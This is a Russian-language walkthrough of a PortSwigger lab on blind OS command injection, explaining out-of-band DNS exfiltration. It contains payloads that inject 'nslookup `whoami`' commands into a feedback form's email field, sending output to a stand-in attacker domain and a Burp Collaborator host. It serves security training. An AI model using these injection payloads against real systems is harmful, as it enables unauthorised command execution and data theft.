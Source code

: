 # Blind OS command injection with out-of-band data exfiltration

## Theory

Можно использовать введенную команду, которая инициирует внешнее сетевое взаимодействие с системой, которой вы управляете, используя методы OAST. Например:
```
& nslookup kgji2ohoyw.web-attacker.com &
```

Эта полезная нагрузка использует команду nslookup для поиска DNS для указанного домена. Злоумышленник может отслеживать выполнение указанного поиска и, таким образом, обнаруживать, что команда была успешно внедрена.

Внеполосный канал также обеспечивает простой способ эксфильтрации вывода внедренных команд:
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

Это приведет к поиску в DNS злоумышленника, содержащему результат команды whoami:
```
wwwuser.kgji2ohoyw.web-attacker.com
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/1.png)

Перейдем на страницу "Submit feedback".

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/2.png)

Заполним поля для ввода случайными данными и перехватим запрос.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/3.png)

Откроем Burp Collaborator.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/4.png)

Скопируем DNS кнопкой "Copy to clipboard" и модифицируем запрос.
```
email=111%40gmail.com||nslookup+`whoami`.l3po4oxu63uw62hcyza2ff684zaqyf.burpcollaborator.net||
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/5.png)

Отправив запрос, перейдем к окну Burp Collaborator и нажмем кнопку "Pull now" для обновления. Заметим, что мы получили ответ от нашего модифицированного запроса.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/6.png)

Копируем имя пользователя. На главной странице найдем кнопку "Submit solution".

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/7.png)

Нам открывается панель для ввода ответа. Вставляем имя пользователя и отправляем.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/8.png)

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_data_exfiltration/assets/9.png)
